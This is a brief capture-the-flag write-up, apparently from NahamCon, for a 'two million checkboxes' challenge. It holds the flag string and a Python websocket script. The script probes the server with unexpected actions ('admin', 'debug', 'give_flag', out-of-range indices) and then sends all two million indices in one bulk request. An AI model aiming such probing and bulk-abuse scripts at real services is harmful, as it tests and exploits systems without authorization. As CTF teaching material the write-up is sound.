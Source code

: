 `flag{4cb8649d9ecb0ec59d1784263602e686} `

# TMCB 
Desc - They thought they could impress us with One Million Checkboxes!? Pfft... how about TWO Million Checkboxes?!

Ya gotta check'em all!!

Interaction - 2 million checkboxes given need to check each of them to get the flag

Solution: 

- Running a script for each box going from 0 to 2million doing `action:check` will result in timeouts due to how the websockets work 

- Try for edge cases and sending in bulk worked. 


```
import asyncio
import websockets
import json

WS_URL = "ws://challenge.nahamcon.com:30572/ws"

async def try_payload(ws, payload, description):
    print(f"\n[*] Trying: {description}")
    await ws.send(json.dumps(payload))
    try:
        response = await asyncio.wait_for(ws.recv(), timeout=5)
        print(f"[+] Response: {response[:300]}{'...' if len(response)>300 else ''}")
        if "flag" in response.lower():
            print("[!!!] FLAG FOUND!")
            return True
    except Exception as e:
        print(f"[!] Exception: {e}")
    return False

async def main():
    async with websockets.connect(WS_URL) as ws:
        print(f"[+] Connected to {WS_URL}")

        
        payloads = [
            ({"action": "check_all"}, "action: check_all"),
            ({"action": "check", "numbers": "all"}, "action: check, numbers: 'all'"),
            ({"action": "check", "numbers": [-1]}, "action: check, numbers: [-1]"),
            ({"action": "check", "numbers": [2000000]}, "action: check, numbers: [2000000]"),
            ({"action": "check", "numbers": [999999999]}, "action: check, numbers: [999999999]"),
            ({"action": "admin"}, "action: admin"),
            ({"action": "debug"}, "action: debug"),
            ({"action": "give_flag"}, "action: give_flag"),
        ]

       
        try:
            print("\n[*] Trying: action: check, numbers: [0..1999999] (may take time)")
            all_numbers = list(range(2_000_000))
            await ws.send(json.dumps({"action": "check", "numbers": all_numbers}))
            response = await asyncio.wait_for(ws.recv(), timeout=10)
            print(f"[+] Response: {response[:300]}{'...' if len(response)>300 else ''}")
            if "flag" in response.lower():
                print("[!!!] FLAG FOUND!")
                return
        except Exception as e:
            print(f"[!] Exception (all numbers): {e}")
```